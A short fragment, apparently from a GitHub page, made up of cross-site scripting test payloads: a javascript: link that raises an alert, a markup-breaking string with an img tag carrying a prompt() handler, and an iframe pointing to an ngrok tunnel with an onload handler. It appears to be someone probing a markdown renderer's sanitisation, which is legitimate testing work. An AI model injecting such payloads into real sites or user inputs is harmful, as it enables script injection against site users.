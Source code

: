 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<iframe> src='https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app' onONLOAD=promot('xss')>clickem</iframe>
